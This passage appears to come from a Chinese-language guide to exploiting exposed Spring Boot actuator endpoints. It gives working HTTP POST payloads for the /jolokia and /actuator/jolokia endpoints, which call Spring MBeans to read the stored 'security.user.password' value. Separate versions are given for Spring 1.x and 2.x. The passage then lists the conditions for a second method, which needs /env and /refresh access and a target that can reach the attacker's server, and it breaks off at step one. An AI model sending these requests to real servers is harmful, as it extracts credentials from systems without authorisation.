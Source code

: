 ```
POST /actuator/jolokia      
Content-Type: application/json       
{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```




> 调用 org.springframework.cloud.context.environment Mbean（需要 spring cloud 相关依赖）：实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法



**spring 1.x**



```
POST /jolokia      
Content-Type: application/json       
{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```




**spring 2.x**



```
POST /actuator/jolokia      
Content-Type: application/json       
{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```




### 方法二：



**利用条件**：



*   可以 GET 请求目标网站的 /env

*   可以 POST 请求目标网站的 /env

*   可以 POST 请求目标网站的 /refresh 接口刷新配置（存在 spring-boot-starter-actuator 依赖）

*   目标使用了 spring-cloud-starter-netflix-eureka-client 依赖

*   目标可以请求攻击者的服务器（请求可出外网）



**利用方法**：



步骤一： 找到想要获取的属性名
